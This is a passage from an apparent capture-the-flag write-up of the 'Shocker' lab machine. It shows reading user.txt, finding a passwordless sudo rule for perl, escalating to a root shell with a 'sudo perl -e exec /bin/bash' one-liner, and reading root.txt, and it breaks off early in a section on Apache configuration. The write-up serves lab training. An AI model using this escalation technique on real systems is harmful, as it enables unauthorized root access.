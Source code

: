     shelly@Shocker:/usr/lib/cgi-bin$



And get `user.txt`:



    shelly@Shocker:/home/shelly$ cat user.txt
    2715b1ad************************



## Shell as root

### Enumeration

I also manually check `sudo -l` before uploading any kind of enumeration
script, and it pays off here:



    shelly@Shocker:/home/shelly$ sudo -l
    Matching Defaults entries for shelly on Shocker:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User shelly may run the following commands on Shocker:
        (root) NOPASSWD: /usr/bin/perl



shelly can run `perl` as root.

### Shell

`perl` has a `-e` option that allows me to run Perl from the command
line. It also has an `exec` command that will run shell commands.
Putting that together, I can run `bash` as root:



    shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/bash"'
    root@Shocker:/home/shelly#



That's enough to grab `root.txt`:



    root@Shocker:~# cat root.txt
    3675a0fa************************



## Beyond Root

### Apache Config

When I first found the `/cgi-bin/` directory on Apache that responded to
`/cgi-bin` with a 404 not found, I assumed it would be due to the
`DirectorySlash` [Apache
directive](http://httpd.apache.org/docs/2.2/mod/mod_dir.md#directoryslash):
